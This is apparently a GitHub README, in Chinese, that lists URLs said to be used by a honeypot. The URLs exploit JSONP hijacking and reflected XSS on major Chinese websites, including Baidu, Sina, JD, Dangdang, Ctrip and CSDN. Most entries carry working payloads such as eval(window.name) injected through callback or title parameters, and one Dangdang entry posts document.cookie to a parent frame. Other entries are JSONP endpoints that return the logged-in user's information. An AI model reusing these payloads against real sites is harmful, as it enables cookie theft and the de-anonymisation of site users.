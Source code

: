 # MoAn_Honey_Pot_Urls
X安蜜罐用的一些存在JSonp劫持的API

# URLs

| 链接 | 说明 |
| ---- | ---- |
| http://api-live.iqiyi.com/stream/geth5?qd_tm=1553094041094&&xxoo=chrome-extension://&typeId=1&platform=7&vid=0&qd_vip=0&qd_uid=2327344064&qd_ip=x.x.x.x&qd_vipres=0&qd_src=h5_xiu&qd_tvid=0&_=1553094041094&callback=%3Csvg/onload=eval(name)%3E | 爱奇艺 |
| http://comment.api.163.com/api/v1/products/a2869674571f77b5a0867c3d71db5856/users/myInfo?ibc=newspc&callback=jsonp_1576488793844&_=1576488793845 | 163 |
| http://musicapi.taihe.com/v1/restserver/ting?from=web&format=json&param=LSybM0sdw2aqEfumhdonnx8fVeIHBQtuiPCKUtmcDzyQAMZmL9gayz8xP%2FHmDp%2BH&timestamp=1574934266&sign=6d4fb00655a40b21407243b6be7274a4&method=baidu.ting.ugccenter.getUserBaseInfo&callback=? | 泰禾音乐集团 |
| https://login.sina.com.cn/sso/prelogin.php?entry=weibo&su=&rsakt=mod&client=ssologin.js(v1.4.19)&_=1552901735056&callback=? | 渣浪 |
| http://comment.api.163.com/api/v1/products/a2869674571f77b5a0867c3d71db5856/users/0/dailyAchv?ibc=newspc&from=all&callback=? | 163评论 |
| https://wz.cnblogs.com/create?t=xxxx&xxoo=chrome-extension://&&u=%22%3E%3Csvg/onload=eval(name)%3E&c=&i=0 | 博客园 |
| https://hudong.vip.youku.com/act/mili/download.html?mobile=1&xxoo=chrome-extension://&download=javascript:new%20Function(name)();//https://down2.uc.cn///https://itunes.apple.com/app | 优酷 |
| http://wapsite.baidu.com/j.php?z=2&xxoo=chrome-extension://&page=index_cxv3&pos=search_rsc_n2&level=1&ver=android&url=%0D%0Ahttp://m.baidu.com/%0D%0aX-XSS-Protection:0%0d%0a%0d%0a%3Cscript%3Eeval(window.name)%3C/script%3E | 百度 |
| http://databack.dangdang.com/dde.php?platform=pc&xxoo=chrome-extension://&type=3&url=http://www.dangdang.com/&charset=GBK&perm_id=20200530121832924211210288241440628&page_id=mix_317715&website=dangdang.com&expose=123&callback=%22%3E%3Cscript%3Eeval(name)%3C/script%3E | 当当 |
| http://databack.dangdang.com/dde.php?platform=pc&xxoo=chrome-extension://&type=3&url=http%253A%252F%252Fwww.dangdang.com%252F&charset=GBK&perm_id=20200530121832924211210288241440628&page_id=mix_317715&website=dangdang.com&expose=%255B%2522mix_317715.3208542%252C9339%252C9354..%2522%252C%2522mix_317715.3208542%252C9339%252C9356..%2522%252C%2522mix_317715.3208542%252C9339%252C9356%252C9341..%2522%252C%2522mix_317715.3208542%252C9339%252C9356%252C9342.1.%2522%252C%2522mix_317715.3208542%252C9339%252C9356%252C9342.2.%2522%252C%2522mix_317715.3208542%252C9339%252C9356%252C9342.3.%2522%252C%2522mix_317715.3208542%252C9339%252C9356%252C9342.4.%2522%252C%2522mix_317715.3208542%252C9339%252C9356%252C9342.5.%2522%252C%2522mix_317715.3208542%252C9339%252C9356%252C9342.6.%2522%252C%2522mix_317715.3208542%252C9339%252C9356%252C9342.7.%2522%255D&callback=%3Ciframe/src=javascript:eval(%22window.parent.window.parent.postMessage({source:%20%22dangdang%22,%20d:%20document.cookie},%20%22*%22);%22)%3E | 当当 |
| https://api.csdn.net/oauth/authorize?client_id=1000001&xxoo=chrome-extension://&redirect_uri=http://www.iteye.com/auth/csdn/callback&response_type=%22https%3A%2F%2Fapi.csdn.net%2Foauth%2Fauthorize%3Fclient_id%3D1000001%26redirect_uri%3D%22http%3A%2F%2Fwww.iteye.com%2Fauth%2Fcsdn%2Fcallback%26response_type%3D%22%3E%3Cimg%20src%3Dx%20onerror%3Deval(window.name)%3E | CSDN |
| https://zhifu.baidu.com/proxy/req/newcashier?cityId=&customerId=55&defaultResPage=0&deviceType=3&extData=&ext_store_no=&failUrl=&imei=&itemInfo=[{%22id%22:%22IPRQZ1598593080ba981c084142%22,%22number%22:1,%22price%22:10000,%22name%22:%221%22}]&mobile=&notifyUrl=http://quzheng.baidu.com/iprweb/v1/pay_status&orderCreateTime=1598593081&orderExpireTime=&orderId=IPRQZ1598593080ba981c084142&originalAmount=1&passScope=&passuid=&payAmount=1&returnUrl=http://quzheng.baidu.com/iprweb/v1/pay_return&sdk=0&sdkStyle=0&service=Cashier&sourceApp=&spData=&tag=&title=%3C/script%3E%3Cscript%3Eeval(window.name)%3C/script%3E&tn=&tpl=2&url=&signType=md5orchrome-extension://&sign=659ff744e50cbe1ceb4892af43d9f7f6 | 百度 |
| https://www.huya.com/udb_web/udbport2.php?m=HuyaLogin&xxoo=chrome-extension://&do=checkLogin&callback=jQuery22407402084422104858_1604891765254&callback=jQuery15208825534966858746_1621838003202&_=1621838003273 | 虎牙 |
| https://m.iask.sina.com.cn/cas/logins?domain=iask.sina.com.cn&xxoo=chrome-extension://&businessSys=iask&channel=null&popup=show&clsId=undefined&fid=%22%3E%3Cscript%3Eeval(name)%3C/script%3E | 新浪 |
| https://mooc1-1.chaoxing.com/api/workTestPendingNew?&xxoo=chrome-extension://&classIds=%3CScRiPt%3Eeval(name)%3C/sCrIpT%3E | 超星尔雅 |
| https://accounts.ctrip.com/ssoproxy/ssoGetUserInfo?xxoo=chrome-extension://&jsonp=jQuery2398423949823&callback=jQuery15208825534966858746_1621838003204&_=1621838003279 | 携程 |
| https://myjr.suning.com/sfp/mutualTrust/getLoginInfo.htm?xxoo=chrome-extension://&&callback=jQuery172011468305000873791_1608255922695&_=1621838003278 | 苏宁 |
| http://my.zol.com.cn/public_new.php?xxoo=chrome-extension:// | 中关村 |
| https://bbs.zhibo8.cc/user/userinfo?device=pc&xxoo=chrome-extension://&_=1621838003277&callback=jQuery15208825534966858746_1621838003203 | 直播8 |
| http://passport.tianya.cn/online/checkuseronline.jsp?t=1584614187028&callback=callback&xxoo=chrome-extension:// | 天涯 |
| https://api.m.jd.com/api?appid=pc_home_page&xxoo=chrome-extension://&functionId=getBaseUserInfo&loginType=3&jsonp=jsonp2 | 京东 |
| https://api.m.jd.com/client.action?functionId=getBabelProductPaged&xxoo=chrome-extension://&body=%7b%22%73%65%63%6f%6e%64%54%61%62%49%64%22%3a%22%30%30%31%35%35%35%35%34%37%30%38%39%33%5f%30%33%37%32%36%36%30%30%5f%22%2c%22%74%79%70%65%22%3a%22%30%22%2c%22%70%61%67%65%4e%75%6d%22%3a%22%31%22%2c%22%6d%69%74%65%6d%41%64%64%72%49%64%22%3a%22%22%2c%22%67%65%6f%22%3a%7b%22%6c%6e%67%22%3a%22%22%2c%22%6c%61%74%22%3a%22%22%7d%2c%22%61%64%64%72%65%73%73%49%64%22%3a%22%22%2c%22%70%6f%73%4c%6e%67%22%3a%22%22%2c%22%70%6f%73%4c%61%74%22%3a%22%22%2c%22%66%6f%63%75%73%22%3a%22%22%2c%22%69%6e%6e%65%72%41%6e%63%68%6f%72%22%3a%22%22%7d&screen=2799*1208&client=wh5&clientVersion=1.0.0&sid=&uuid=&area=&_=1585823068850&callback=jsonp1 | 京东 |
| https://p.qiao.baidu.com/cps3/chatIndex?siteToken=%3C/script%3E%3Cimg%20src=x%20onerror=eval(window.name)%3E&xxoo=chrome-extension://&speedLogId=&eid=28181423&reqParam=%7B%22from%22%3A0%2C%22sid%22%3A%22-100%22%2C%22tid%22%3A%22-1%22%2C%22ttype%22%3A1%2C%22siteId%22%3A%2213768072%22%2C%22userId%22%3A%2228181423%22%2C%22pageId%22%3A0%7D | 百度 |
| https://home.51cto.com/index.php?s=/Index/getLoginStatus2015/reback/http%253A%252F%252Fwww.51cto.com%252F&xxoo=chrome-extension:// | 51cto |
| https://home.ctfile.com/iajax.php?item=profile&xxoo=chrome-extension://&action=index&jsonp=jQuery2398423949823 | 城通网盘 |
